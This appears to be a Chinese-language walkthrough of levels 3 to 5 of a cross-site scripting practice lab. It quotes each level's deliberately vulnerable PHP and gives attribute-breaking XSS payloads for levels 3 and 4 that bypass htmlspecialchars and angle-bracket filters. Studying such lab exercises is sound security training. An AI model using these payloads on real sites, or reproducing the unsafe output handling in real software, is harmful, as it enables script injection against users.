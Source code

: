 # level-3
- 直接看源码

```
$str = $_GET["keyword"];
echo "&#60h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."
&#60form action=level3.php method=GET>
&#60input name=keyword  value='".htmlspecialchars($str)."'>
&#60input type=submit name=submit value=搜索 />
&#60/form>

```
- 发现表单输出也实体化了，payload如下：

```
'onclick='window.alert()
```
- htmlspecialchars转译双引号，但不转义单引号，这里程序还有个小bug，url输入没反应，理论上应该也可以成功

# level-4 
- 还是直接看源码

```
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "&#60h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'
&#60form action=level4.php method=GET>
&#60input name=keyword  value="'.$str3.'">
&#60input type=submit name=submit value=搜索 />
&#60/form>
```
- str_replace()
把字符串 "Hello world!" 中的字符 "world" 替换为 "Shanghai"：

```
&#60?php
echo str_replace("world","Shanghai","Hello world!");
?>
```
- 可以看出url，form输入的参数，"<",">",分别被替换为","
- payload：

```
"onclick="window.alert()
```
# level-5
- 源码

```
$str = strtolower($_GET["keyword"]);
$str2=str_replace("&#60script","&#60scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "&#60h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'
&#60form action=level5.php method=GET>
&#60input name=keyword  value="'.$str3.'">
&#60input type=submit name=submit value=搜索 />
&#60/form>
```
